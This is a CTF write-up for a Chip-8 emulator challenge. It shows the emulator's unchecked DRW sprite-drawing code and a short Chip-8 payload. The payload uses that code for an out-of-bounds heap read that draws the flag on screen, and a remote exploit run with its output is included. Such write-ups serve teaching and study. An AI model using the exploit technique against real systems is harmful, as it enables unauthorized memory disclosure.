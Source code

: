     - `Fx1E` - `ADD I, Vx`. Set I = I + Vx. The values of I and Vx are added, and the results are stored in I.
    - `Dxyn` - `DRW Vx, Vy, nibble`. Display n-byte sprite starting at memory location I at (Vx, Vy), set VF = collision. The interpreter reads n bytes from memory, starting at the address stored in I. These bytes are then displayed as sprites on screen at coordinates (Vx, Vy). Sprites are XORed onto the existing screen. If this causes any pixels to be erased, VF is set to 1, otherwise it is set to 0. If the sprite is positioned so part of it is outside the coordinates of the display, it wraps around to the opposite side of the screen. See instruction 8xy3 for more information on XOR, and section 2.4, Display, for more information on the Chip-8 screen and sprites.

```nnn or addr - A 12-bit value, the lowest 12 bits of the instruction
n or nibble - A 4-bit value, the lowest 4 bits of the instruction
x - A 4-bit value, the lower 4 bits of the high byte of the instruction
y - A 4-bit value, the upper 4 bits of the low byte of the instruction
kk or byte - An 8-bit value, the lowest 8 bits of the instruction 
```

## The bug

The bug lies into the implementation around the instruction that use the `I` register. Indeed, as you read above, the `I` register is 16 bits wide. Thus we could we print onto the screen with the help of the `DRW` instruction data stored from `memory[I=0]` up to `memory[I=2^16 - 1]`. Let's see how does it  handle the `DRW` instruction:
```c
// https://github.com/LakshyAAAgrawal/chip8emu/blob/master/src/Machine.cpp#L123

{0xd000, [this](uint16_t& op){ // TODO - Dxyn - DRW Vx, Vy, nibble
    registers[0xf] = ge.draw_sprite(memory.begin() + I, memory.begin() + I + (op & 0x000f), registers[(op & 0x0f00)>>8] % 0x40, registers[(op & 0x00f0)>>4] % 0x20);
}}
```

The first and the second argument are the begin and the end of the location where data to print are stored. `(op & 0x000f)` represents the amount of bytes we'd like to print. As you can see no checks are performed, this way we able to get a read out of bound from from `memory[I=0]` up to `memory[I=2^16 - 1]`.

## Exploitation

Now we now how we could exfiltrate the flag we can write this tiny chip8 program:
```py
code = [
    0xAFFF, # Annn - LD I, addr, I  = 0xfff
    0x6111, # 6xkk - LD Vx, byte, R1 = 0x11
    0xF11E, # ADD I, R1, I => 0x1010
    0xDBCF  # Write on screen (xored with current pixels) 15 bytes from I=0x1010
]
```

We read the flag from `memory[0x1010]` given `memory` is adjacent to the `flag` (`memory[0x1000]` == begin of the chunk `flag` within the heap), and we add `0x10` to read the chunk content which is right after the header (prev_sz and chunk_sz). Once we launch it we get:
```
python3 exploit.py REMOTE HOST=51.254.39.184 PORT=1337
[*] '/media/nasm/7044d811-e1cd-4997-97d5-c08072ce9497/ret2school/ctf/2023/pwnme/pwn/chip8/wrapper'
    Arch:     amd64-64-little
╔════════════════════════════════════════════════════════════════╗
║ █ █ ▄▄▄                                                        ║
║ █  ██▀▄                                                        ║
║ █▄▄▄▀▄█                                                        ║
║ █  ▄ ▀▀                                                        ║
║ ▄██   ▀                                                        ║
║  █▄█▀ ▀                                                        ║
║ ▀▄█▀▀██                                                        ║
║ ▀▀ ▀▀ ▀                                                        ║
```
